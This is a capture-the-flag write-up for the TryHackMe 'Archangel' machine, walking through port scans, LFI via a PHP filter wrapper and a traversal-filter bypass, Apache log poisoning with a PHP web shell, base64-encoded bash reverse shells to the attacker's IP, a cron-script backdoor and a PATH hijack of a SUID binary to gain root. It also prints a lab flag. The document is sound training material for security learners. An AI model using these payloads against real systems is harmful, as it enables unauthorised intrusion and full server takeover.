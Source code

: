 ```yaml
---
layout: single
title: Archangel tryhackme writeup
excerpt: "Easy linux machine in which we exploit and LFI, poison logs to get RCE, and escalate with both crontab and $PATH"
date: 2022-10-09
classes: wide
header:
  teaser: /assets/images/archangel/archangel.jpeg
  teaser_home_page: true
  icon: /assets/images/tryhackme.png
categories:
  - writeup
tags:
  - tryhackme
  - LFI
  - log poisoning
  - cron
  - PATH
---
```


![](/assets/images/archangel/archangel.png)
<p align = "center">
Image generated by DALL-E 2 AI
</p>

## User flag

Firstly, basic port scanning as always

```shell
nmap -sS -p- --min-rate 5000 -n -Pn -oN allports -vv 10.10.56.140

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

```shell
 nmap -sCV -p22,80 -oN targeted -vv 10.10.56.140
 ... (Nothing interesting)
```

Nothing meaningful appears, so let's take a look at the website. It has some directories but nothing fancy yet. However, we haven't added anything to our /etc/host yet which is a step that is always present in this kind of CTF since it can give more information. From the contact email we can deduct that the domain is mafialive.thm so I added it to my /etc/hosts


```shell
# Static table lookup for hostnames.
# See hosts(5) for details.
127.0.0.1       localhost
::1             localhost
10.10.147.13 	mafialive.thm
```

Now if we go to http://mafialive.thm/ we find the first flag. At this point, I fuzzed for common files and found some interesting files.

```shell
ffuf -w ~/wordlist/Filenames_Doted_Common.wordlist -u http://mafialive.thm/FUZZ -v

[Status: 403, Size: 278, Words: 20, Lines: 10]
| URL | http://mafialive.thm/.htpasswd
    * FUZZ: .htpasswd

[Status: 200, Size: 34, Words: 3, Lines: 3]
| URL | http://mafialive.thm/robots.txt
    * FUZZ: robots.txt

[Status: 200, Size: 286, Words: 38, Lines: 16]
| URL | http://mafialive.thm/test.php
    * FUZZ: test.php

```

robots.txt disallows test.php so I looked into it. When you click the only button on the page you get redirected to an internal file with a url parameter. This looks promising for a LFI. It is often a good idea to look at the code making the LFI possible to learn how to bypass it, but it seems that if you type test.php it interprets it. However, this has a solution, encoding it in base64 using a wrapper.

```shell
http://mafialive.thm/test.php?view=php://filter/read=convert.base64-encode/resource=/var/www/html/development_testing/test.php
```

Now if we decode it we get

```html

<!DOCTYPE HTML>
<html>

<head>
    <title>INCLUDE</title>
    <h1>Test Page. Not to be Deployed</h1>

    </button></a> <a href="/test.php?view=/var/www/html/development_testing/mrrobot.php"><button id="secret">Here is a button</button></a><br>
        <?php

	    //FLAG: thm{explo1t1ng_lf1}

            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    if(isset($_GET["view"])){
	    if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
            	include $_GET['view'];
            }else{

		echo 'Sorry, Thats not allowed';
            }
	}
        ?>
    </div>
</body>

</html>

```

The code just means that the url must contain /var/www/html/development_testing and mustn't contain ../.. . This is easy to bypass by using ..//. Once we know these works try to get RCE with log poisoning as usual. To quickly find the logs I used a custom wordlist

```shell
ffuf -w ~/wordlist/common-unix-httpd-log-locations-no-slash.txt -u http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//..//..//..//..//..//../FUZZ -v -fs 286

[Status: 200, Size: 137159, Words: 13402, Lines: 770]
| URL | http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//..//..//..//..//..//..//var/log/apache2/error.log
    * FUZZ: /var/log/apache2/error.log

[Status: 200, Size: 143588, Words: 17908, Lines: 1197]
| URL | http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//..//..//..//..//..//..//var/log/apache2/access.log
    * FUZZ: /var/log/apache2/access.log
```

The next step is to use a malicious User-Agent like this.

```shell
curl -A '<?php system($_GET['cmd']); ?>' http://mafialive.thm/test.php?view=/var/www/html/development_testing
```

Now we finally have RCE with the cmd parameter. Then I created a base64 rev shell payload and got the shell

```shell
$ echo "bash -i >& /dev/tcp/10.18.52.67/7777 0>&1" | base64 | base64
WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhPQzQxTWk0Mk55ODNOemMzSURBK0pqRUsK
$ nc -lvp 7777
...
http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//..//..//..//..//..//../var/log/apache2/access.log&cmd=echo%20%22WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE1DNHhPQzQxTWk0Mk55ODNOemMzSURBK0pqRUsK%22%20|%20base64%20-d%20|%20base64%20-d%20|%20bash
...
Connection from 10.10.147.13:60348
bash: cannot set terminal process group (418): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/var/www/html/development_testing$ ^Z
zsh: suspended  nc -lvp 7777
[dasor@archlinux ~]$ stty raw -echo;fg
[1]  + continued  nc -lvp 7777
www-data@ubuntu:/var/www/html/development_testing$ script /dev/null -c bash
                                                          Script started, file is /dev/null
                                                                                           www-data@ubuntu:/var/www/html/development_testing$
www-data@ubuntu:/var/www/html/development_testing$ stty rows 30 columns 132
www-data@ubuntu:/var/www/html/development_testing$ export TERM=xterm
www-data@ubuntu:/var/www/html/development_testing$
```

At this point, I started searching for common privesc paths and found an interesting file in /opt

```shell
www-data@ubuntu:/opt$ ls -la
total 16
drwxrwxrwx  3 root      root      4096 Nov 20  2020 .
drwxr-xr-x 22 root      root      4096 Nov 16  2020 ..
drwxrwx---  2 archangel archangel 4096 Nov 20  2020 backupfiles
-rwxrwxrwx  1 archangel archangel   66 Nov 20  2020 helloworld.sh
www-data@ubuntu:/opt$ cat helloworld.sh
#!/bin/bash
echo "hello world" >> /opt/backupfiles/helloworld.txt
```

Weirdly, this is here. The first thing that came to my mind is that it may be a cronjob so I added a reverse shell to see if I could escalate to user archangel.

```shell
www-data@ubuntu:/opt$ cat helloworld.sh
#!/bin/bash
echo "hello world" >> /opt/backupfiles/helloworld.txt
bash -i >& /dev/tcp/10.18.52.67/4444 0>&1
...
nc -lvp 4444
Connection from 10.10.147.13:38678
bash: cannot set terminal process group (1134): Inappropriate ioctl for device
bash: no job control in this shell
archangel@ubuntu:~$
```

After a couple of minutes, I got the connection and successfully entered as the user archangel, now we can get the user flag.

## Root flag

Now if we go to the secret directory in archangel's home we find a backup binary with the SUID bit set. If we try to execute we get a cp error so this can easily be exploited with $PATH manipulation like this.

```shell
archangel@ubuntu:~/secret$ cat cp
#!/bin/bash

bash
archangel@ubuntu:~/secret$ export PATH=/home/archangel/secret:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
archangel@ubuntu:~/secret$ chmod 777 cp
archangel@ubuntu:~/secret$ ./backup
root@ubuntu:~/secret# whoami
root
```

Just by creating a simple fake cp executable and giving it a priority in the PATH environment variable, we are root.
